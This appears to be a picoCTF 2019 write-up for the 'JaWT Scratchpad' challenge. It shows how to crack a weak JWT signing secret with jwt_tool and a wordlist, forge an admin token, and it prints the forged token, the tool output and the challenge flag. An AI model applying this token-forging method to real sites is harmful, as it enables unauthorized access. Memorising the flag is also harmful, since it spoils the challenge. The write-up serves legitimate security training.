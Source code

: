 # JaWT Scratchpad - Points: 400

## Problem

> Check the admin scratchpad! ```https://2019shell1.picoctf.com/problem/32267/``` or http://2019shell1.picoctf.com:32267

## Hints

> What is that cookie?

> Have you heard of JWT?

## Overview

Let's connect to the provided website

Navigating to the vulnerable website, the first thing a norm would do is to check the source code. Unfortunately, there's nothing seems to be suspicious.  

There's a box where you can actually enter your own chosen username. If we tried to login as ```admin```, we'll get an error like this
```html
<p style="color:red">
       YOU CANNOT LOGIN AS THE ADMIN! HE IS SPECIAL AND YOU ARE NOT.
</p>
```
However, logging in as another user is allowed. I used ```ch3llist4``` as my username. Now we can start exploiting the cookie.

## Solutions

I decided to use the same [online extension](http://www.editthiscookie.com/) as I did on **Open-to-admins** challenge for checking and editing the site cookies.

As expected, I saw a cookie named ```jwt``` with the value ```eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiY2gzbGxpc3Q0In0.WiG-XOhFqsulY9c7-ZSNMa8nI-AcBgKsRkY678wYcO8```. This should be the JSON token that got already encoded using ```base64```

Use this [website](https://jwt.io/) which is provided as a hint in their source code. We can extract the information out of it.
```
{
  "typ": "JWT",
  "alg": "HS256"
}

{
  "user": "ch3llist4"
}
```
As I read on the [wiki](https://en.wikipedia.org/wiki/JSON_Web_Token)

The signature part which is the last part after ```.``` is calculated by encoding the header and payload using [Base64url Encoding](https://en.wikipedia.org/wiki/Base64#URL_applications) and concatenating the two together with a period separator. That string is then run through the cryptographic algorithm specified in the header...
```
HMAC-SHA256(
 base64urlEncoding(header) + '.' +
 base64urlEncoding(payload),
 secret
)
```
So far as i know, we need to somehow get their secret code used in the signature part to generate a new JWT and then we can use that to exploit the website.

I actually didn't use John as the John process for bruteforcing JWT specifically is a little bit more complicated. Instead, I used this [tool](https://github.com/ticarpi/jwt_tool) 

```
$ python jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiY2gzbGxpc3Q0In0.WiG-XOhFqsulY9c7-ZSNMa8nI-AcBgKsRkY678wYcO8 ../JohnTheRipper/run/rockyou.txt

,----.,----.,----.,----.,----.,----.,----.,----.,----.,----.
----''----''----''----''----''----''----''----''----''----'
     ,--.,--.   ,--.,--------.,--------.             ,--.
     |  ||  |   |  |'--.  .--''--.  .--',---.  ,---. |  |
,--. |  ||  |.'.|  |   |  |      |  |  | .-. || .-. ||  |
|  '-'  /|   ,'.   |   |  |,----.|  |  ' '-' '' '-' '|  |
 `-----' '--'   '--'   `--''----'`--'   `---'  `---' `--'
,----.,----.,----.,----.,----.,----.,----.,----.,----.,----.
'----''----''----''----''----''----''----''----''----''----'

Token header values:
[+] typ = JWT
[+] alg = HS256

Token payload values:
[+] user = ch3llist4

######################################################
# Options:                                           #
# 1: Check CVE-2015-2951 - alg=None vulnerability    #
# 2: Check for Public Key bypass in RSA mode         #
# 3: Check signature against a key                   #
# 4: Check signature against a key file ("kid")      #
# 5: Crack signature with supplied dictionary file   #
# 6: Tamper with payload data (key required to sign) #
# 0: Quit                                            #
######################################################

Please make a selection (1-6)
> 5

Loading key dictionary...
File loaded: ../JohnTheRipper/run/rockyou.txt
Testing 14344380 passwords...
[+] ilovepico is the CORRECT key!
```
Now we know that the secret used in the signature part is ```ilovepico```. Let's use it to generate the new token using the previous website. Now we change our usernames to ```admin``` for initializing the unauthorized access.

This token is perfect for exploiting now
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```
Change the cookie value to the token and we're good. All we need to do left is reload the page and enjoy the flag..

flag:
```
picoCTF{jawt_was_just_what_you_thought_6ba7694bcc36bdd4fdaf010b2ec1c2c3}
```
